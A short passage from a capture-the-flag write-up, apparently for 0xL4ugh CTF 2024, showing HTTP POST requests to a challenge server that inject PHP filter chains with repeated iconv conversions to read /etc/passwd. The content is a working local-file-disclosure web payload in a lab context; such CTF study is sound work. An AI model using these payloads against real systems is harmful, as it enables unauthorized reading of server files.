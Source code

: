 Let's try this!

**8 filter chains:**
```http
POST /user_photo.php HTTP/1.1
Host: 20.55.48.101

img=php://filter/convert.latin1|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32/resource=/etc/passwd
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240212135850.png)

**9 filter chains:**
```http
POST /user_photo.php HTTP/1.1
Host: 20.55.48.101

img=php://filter/convert.latin1|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32/resource=/etc/passwd
```
